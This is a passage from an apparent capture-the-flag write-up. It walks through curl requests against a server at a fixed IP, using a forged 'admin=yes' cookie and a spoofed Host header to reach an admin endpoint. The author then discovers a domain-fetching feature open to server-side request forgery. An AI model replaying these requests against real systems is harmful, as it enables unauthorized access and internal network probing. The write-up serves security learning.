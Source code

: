 Now it decodes but it seems a mandatory key is missing. Let's add it.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":""}'

```
{"error":{"domain":"incorrect value, .com domain expected"}}
```

Domain has to be a .com domain. I still have no idea what this is going to be used for so let's just put in something.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"www.a.com"}'

```
{"error":{"domain":"incorrect value, sub domain should contain 212"}}
```

That's an oddly specific requirement on the value.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212.a.com"}'

```
{"next":"\/read.php?id=0"}
```

Finally! The request seems to have been processed correctly and we get a new URI to look at.
Checking the contents of it just gives us the following.

> curl 'http://104.236.20.43/read.php?id=0' -H 'Host: admin.acme.org' -b admin=yes

```
{"data":""}
```

Maybe the system uses the domain to fetch some kind of data. I used my own domain to set up a simple page just containning "Hello World!" and submitted it to the system.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{"domain":"212.zeta-two.com"}'

```
{"next":"\/read.php?id=1"}
```

> curl 'http://104.236.20.43/read.php?id=1' -H 'Host: admin.acme.org' -b admin=yes

```
{"data":"SGVsbG8gV29ybGQhCg=="}
```

> echo "SGVsbG8gV29ybGQhCg==" |base64 -d

```
Hello World!
```

## Get SSRF

As I thought, the page seems to take the provided domain and fetch data from it.
This is a classic situation were there could be room for a SSRF vulnerability.
To be able to work with this more methodically, I created a small Python script, looking something like the one below, to automate the fetching and decoding of domains.
Using this script I started to manually "fuzz" the API by providing various malformed domains in different formats.
